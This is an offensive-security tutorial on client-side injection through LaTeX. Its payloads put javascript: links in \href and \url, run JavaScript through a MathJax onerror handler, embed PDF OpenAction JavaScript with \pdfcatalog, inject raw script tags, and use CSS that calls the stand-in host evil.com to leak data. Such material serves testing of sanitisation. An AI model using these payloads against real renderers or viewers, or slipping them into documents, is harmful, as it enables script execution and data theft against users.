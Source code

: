 ```yaml
---
title: Master Client-Side Injection in LaTeX
description: Learn LaTeX-based client-side injection techniques to exploit browsers
  and PDF viewers efficiently.
keywords:
- client-side injection
- LaTeX XSS
- MathJax injection
- PDF JavaScript injection
- browser-based code execution
- HTML/CSS injection
- LaTeX exploits
- PDF viewer vulnerabilities
---
```


# Client-Side Injection

## Context

In this article, we aim to equip offensive operators with techniques to exploit client-side injection vulnerabilities in LaTeX-based contexts. The primary goal is to illustrate how malicious payloads can trigger code execution or render unwanted content in a user's browser or PDF viewer. This article assumes familiarity with client-side scripting concepts, JavaScript execution in browsers, PDF rendering processes, and fundamental LaTeX injection methods.

## Theory

### Client-Side Injection in LaTeX Contexts

Client-side injection involves embedding payloads within LaTeX documents, which subsequently result in code execution or rendering within a user's browser or PDF viewer. Unlike server-side attacks, these exploits leverage the way browsers or PDF viewers interpret LaTeX outputs, rather than targeting the LaTeX engine itself. By integrating certain LaTeX commands, attackers can craft inputs that produce HTML, JavaScript, or CSS during document rendering. This approach can lead to unauthorized client-side operations.

### LaTeX Constructs Enabling Client-Side Payloads

Specific LaTeX commands, such as `\href`, `\url`, `\unicode`, and various MathJax extensions, can be manipulated to embed JavaScript or HTML. Hackers often exploit these capabilities by bypassing input sanitization mechanisms through techniques like encoding, Unicode exploitation, or chaining multiple LaTeX commands to obfuscate their payloads.

### Threat Surface: Browser and PDF Viewer Rendering

Browsers and PDF viewers often trust the content generated by LaTeX, potentially allowing execution of embedded scripts or HTML rendering. This trust, combined with the capabilities of viewers—such as JavaScript support in PDF viewers like Adobe Reader or advanced rendering in MathJax-enabled applications—broadens the vulnerability landscape, providing multiple vectors for attack.

### Common Client-Side Injection Vectors in LaTeX

- **LaTeX XSS**: This attack enables JavaScript injection through constructs like `\href{javascript:...}` or `\url{javascript:...}`.
- **MathJax Injection**: By embedding HTML or JavaScript within mathematical environments rendered by MathJax, attackers can execute scripts.
- **PDF JavaScript Injection**: Uses commands like `\pdfcatalog` to insert JavaScript within PDF files.
- **HTML/CSS Injection**: Relevant for LaTeX-to-HTML converters, where attackers inject directly through LaTeX commands.

## Practice

### LaTeX XSS via \href or \url

This technique involves the insertion of JavaScript via LaTeX constructs that typically embed hyperlinks.

- **Payload**: 

  ```latex
  \href{javascript:alert('XSS')}{Click me}
  ```

  This payload injects JavaScript using `\href` and prompts an alert in the browser when clicked, provided the LaTeX output is HTML-rendered.

- **Alternative Payload**:

  ```latex
  \url{javascript:alert('XSS')}
  ```

  Using `\url`, it targets renderers susceptible to this type of URL-based injection.

**Outcome**: The JavaScript executes upon rendering, displaying an alert box if the output format supports HTML.

### MathJax Injection for HTML/JS Execution

By leveraging MathJax environments, scripts can be injected into mathematical expressions.

- **Payload**:

  ```latex
  $\htmlId{malicious}{<img src=x onerror=alert('MathJax XSS')>}$
  ```

  This injects HTML or JavaScript using the MathJax framework, triggering an alert when the image fails to load.

**Outcome**: Arbitrary JavaScript runs within MathJax-enabled applications, leading to potential XSS scenarios.

### PDF JavaScript Injection via \pdfcatalog

This technique uses LaTeX's PDF catalog commands to embed JavaScript into PDFs.

- **Payload**:

  ```latex
  \pdfcatalog{/OpenAction << /S /JavaScript /JS (app.alert('PDF XSS')) >>}
  ```

  JavaScript is incorporated directly into the PDF, prompting an alert when opened in a PDF viewer with JavaScript enabled.

**Outcome**: Execution of JavaScript happens upon opening the PDF in a viewer like Adobe Reader, triggering the configured action.

### HTML Injection via LaTeX-to-HTML Converters

This technique targets converters that may fail to adequately sanitize LaTeX inputs.

- **Payload**:

  ```latex
  \newcommand{\evil}{<script>alert('HTML XSS')</script>}\evil
  ```

  Injecting raw HTML or JS can be successful in converters producing HTML outputs.

**Outcome**: JavaScript execution occurs when the rendered HTML is displayed, activating the provided payload.

### CSS Injection via LaTeX

This involves injecting CSS for unwanted style changes or data exfiltration purposes.

- **Payload**:

  ```latex
  \newcommand{\css}{<style>body{background:url('http://evil.com/x.png')}</style>}\css
  ```

  The CSS injection manipulates the appearance or behavior of the rendered output.

**Outcome**: CSS renders as intended, possibly leading to data leaks or unwanted UI transformations.

## Tools

- **MathJax**
- **pdflatex**
- **LaTeXML**
- **Adobe Acrobat Reader**